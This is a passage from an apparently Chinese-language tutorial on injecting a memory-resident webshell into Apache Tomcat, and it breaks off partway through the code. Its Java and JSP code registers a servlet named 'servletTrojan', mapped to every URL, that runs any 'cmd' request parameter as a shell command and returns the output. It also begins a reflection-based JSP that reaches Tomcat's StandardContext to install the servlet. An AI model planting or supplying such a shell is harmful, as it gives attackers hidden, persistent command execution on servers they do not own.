service()方法实际上在HttpServlet.class中，提供了多种http方法，所以我们不仅可以在servlet中重写doGet、doPost等触发RCE，还能直接重写service

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221228214839952.png)

```java
   HttpServlet servlet = new HttpServlet() {
        @Override
        protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    };

```

### 3.生成wrapper，封装进context

createWrapper()创建wrapper，设置servletName，修改LoadOnStartup属性值，还有ServletClass指向类

```java
	Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName("servletTrojan");
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(servlet);
    wrapper.setServletClass(HttpServlet.class.getName());

	standardContext.addChild(wrapper);

```

### 4.添加映射

```java
standardContext.addServletMappingDecoded("/*", "servletTrojan");

```

完整代码：

```jsp
//servletTrojan.jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    final Request request1 = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) request1.getContext();
```